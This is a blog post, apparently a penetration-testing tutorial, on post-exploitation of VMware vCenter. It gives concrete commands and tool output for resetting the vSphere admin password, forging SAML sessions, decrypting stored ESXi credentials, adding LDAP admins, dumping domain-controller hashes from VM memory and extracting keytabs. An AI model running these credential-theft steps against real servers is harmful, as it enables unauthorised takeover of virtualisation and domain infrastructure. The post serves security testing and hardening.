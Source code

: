 ```yaml
---
layout: post
title: "Post Exploitation of VCenter"
author: "joelczk"
tags: Vulns
excerpt_separator: <!--more-->
---
```

Post exploitation on VMWare VCenter server ...
<!--more-->

## Background

Before we delve into the technical details of the post exploitation on VMWare VCenter server, let me first introduce you to 2 VMWare ESXI and VMWare VCenter Server Appliance (VCSA).

Let us first start with the ESXI. ESXI is an essential component of VMWare's VSphere suite of tools and is a bare metal hypervisor that allows us to manage and control the resources of numerous servers.

VCSA on the other hand, consist of the web client and the server. VCSA is the tool that is used to monitor all the ESXI servers and could be used to gain access to all the ESXI servers.

## Initial Access
As we all know, the VCenter consist of numerous N-days such as CVE-2021-22005, CVE-2021-21972 and the infamous log4j. Using these CVEs, we can easily obtain remote code execution on these servers. However, most of the online writeups stopped at the process of the initial exploitation and did not provide any furthur details on post-exploitation and hence, my motivation for this blog post.

There are numerous methods of post exploitation for VCenter, which can be broken down into the followin:
- Password reset
- Session Hijacking
- Decrypting ESXI credentials stored in psql
- Adding admin user to the LDAP

Also, I will be covering on some techniques that could be used for furthur exploitation from the VCenter:
- Obtaining hash of administrator user from VCenter
- Obtaining cached credentials 

## Password reset
The fastest and easiest way would be to rest the password of the administrator user on vSphere to gain access to the vSphere web portal. vSphere has a built-in administrator user (administrator@vpshere.local) which allows us to change the login password. 

In order to change the password, we will have to use ```/usr/lib/vmware-vmdir/vdcadmintool``` to change the password of the administrator@vsphere.local user. However, please keep in mind that modifying the credentials in such a way might affect the operations, especially if they have some automated scripts using the administrator user

```
root [/usr/lib/vmware ]# /usr/lib/vmware-vmdir/bin/vdcadmintool
/usr/lib/vmware-vmdir/bin/vdcadmintool


==================
Please select:
0. exploit
1. Test LDAP connectivity
2. Force start replication cycle
3. Reset account password
4. Set log level and mask
5. Set vmdir state
6. Get vmdir state
7. Get vmdir log level and mask
==================

3
Please enter account UPN: administrator@vsphere.local
New password is - 
<new password>
```

## Session Hijacking
Another alternative way of gaining access to the vSphere web portal would be to do a session hijacking attack. To do so, we would have to extract the ```data.mdb``` file to extract the ldP certificate and forge a SAML request using the administrator user. Finally, we will authenticate to the vCenter server to obtain the session cookie. 

For this, we will have to either obtain the ```data.mdb``` file from ```/storage/db/vmware-vmdir/data.mdb``` (if the machine is a Linux machine) or ```C:\ProgramData\VMWare\vCenterServer\data\vmdird\data.mdb``` (if the machine is a Windows machine)

Afterwards, we can use the script from [here](https://github.com/horizon3ai/vcenter_saml_login) to obtain the session cookie

```
root@kali:~/vcenter# python3 vcenter_saml_login.py -p data.mdb -t <IP Address of VCenter>
[*] Successfully extracted the IdP certificate
[*] Successfully extracted trusted certificate 1
[*] Successfully extracted trusted certificate 2
[*] Obtaining hostname from vCenter SSL certificate
[*] Found hostname <Hostname of vCenter> for <IP Address of vCenter>
[*] Initiating SAML request with <IP Address of vCenter>
[*] Generating SAML assertion
[*] Signing the SAML assertion
[*] Attempting to log into vCenter with the signed SAML request
[+] Successfuly obtained Administrator cookie for <IP Address of vCenter>!
[+] Cookie: <Cookie>
```

After obtaining the session cookie, we can browse to https://<VCSA Host>/ui and modify the cookies to obtain access to the web portal. Do take note that we will have to modify the path to become ```/ui``` for this to work. 

For this exploit, it only works well for vCenter 6.0.X. For versions 7 and above, there is an additional *RelayState* parameter in the SAML response and so, we will have to modify the exploit code according to [here](https://github.com/horizon3ai/vcenter_saml_login/pull/13/files)

## Decrypting ESXI users stored in psql
In cases where we are able to gain SSH root access to the vCenter Servers but unable to gain access to the web portal, we can alternatively decrypt the passwords of the ESXI users stored in psql to gain access to the ESXI host.

Firstly, we will have to view vcdb.properties file from the server to obtain the psql password. In Linux machines, the file can be found at either ```/etc/vmware-vpx/vcdb.properties``` or ```/etc/vmware/service-state/vpxd/vcdb.properties```. In Windows machine, the file can be found at ```C:\ProgramData\VMware\vCenterServer\cfg\vmware-vps\vcdb.properties```. 

Afterwards, we can connect to the psql database on the localhost to obtain the encrypted passwords. In Linux machine, this can be done via ```/opt/vmware/vpostgres/current/bin/psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc```. In Windows machine, this can be done via ```C:\Program Files\VMware\vCenter Server\vPostgres\bin\psql.exe -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc```.

Lastly, we will have to extract the key stored in symkey.dat file. On Linux machine, the file can be found at ```cat /etc/vmware-vpx/ssl/symkey.dat``` and on Windows machine, the file can be found at ```C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\ssl\symkey.dat```

Next, we will have to decrypt the stored passwords. This can be easily done with the script from [here](https://github.com/shmilylty/vhost_password_decrypt). We would realize that all the users are ```vpxuser```. However, this ```vpxuser``` is the administrator account on ESXI and would give us administrator access to all the ESXI hosts.

## Adding admin user to LDAP
For this exploit, we will be using the script from [here](https://github.com/3gstudent/Homework-of-Python/blob/master/vCenterLDAP_Manage.py). To start with, we will have to use the following commands to obtain information regarding the ```dcAccount```,```dcAccountDN``` and the ```dcAccountPassword```

```
python update.py getadmin
python update.py getuser
```
Using the information that we have obtained earlier, we can input the information when we run the following commands

```
python update.py adduser
python update.py addadmin
```

Again, do keep in mind that this might modify the LDAP and might affect some operations. Hence, proper permissions has to be sought for before trying to exploit the server in such a way.

## Obtaining hash of administrator user from VCenter
Enough said about post exploitation of VCenter. Let us look at what we can furthur do after gaining access the the VCenter servers and/or the web portal. One of the things that we can do would be to obtain the hash of an administrator user belonging to a DC.

To do so, we can clone the image belonging to the DC. Afterwards, we can look into the datastores to find and download the vmem and vmsn files of the cloned image. Afterwards, we can then use volatility to list the suggested profile

```
./volatility -f <filename>.mem imageinfo
```

Subsequently, we can use ```hashdump``` to dump the hash of the administrator user. We can the use pass-the-hash attacks to gain access to the DC.

```
./volatility -f <filename>.mem --profile=<profile> hashdump
```

## Obtaining cached credentials
Another thing that we can do would be to do bloodhound scan using the cached credentials that we have obtained. In order to do so, we would have to download the *krb5.keytab* file from ```/etc/krb5.keytab```. Afterwards, we will decrypt the contents using the script from [here](https://github.com/sosdave/KeyTabExtract)

Using the information gathered from ```krb5.keytab```, we can then do a bloodhound scan on the domain controller.

```
bloodhound-python -d <domain> -u VCENTER$ --hashes "<NTLM Hash>" -c all -ns <IP Address of dc>
```

## Conclusion
With that, we have come to the end of the post-exploitation on vCenter. As we can see from all the different ways of exploiting vCenter, there are multiple ways and methods to gain access to either the administrative portal of vCenter or the numerous other ESXI servers. Hence, we should pay more attention during the deployment of the ESXI servers and the vCenter servers to eradicate misconfigurations and to ensure that N-day exploits are properly patched on time.
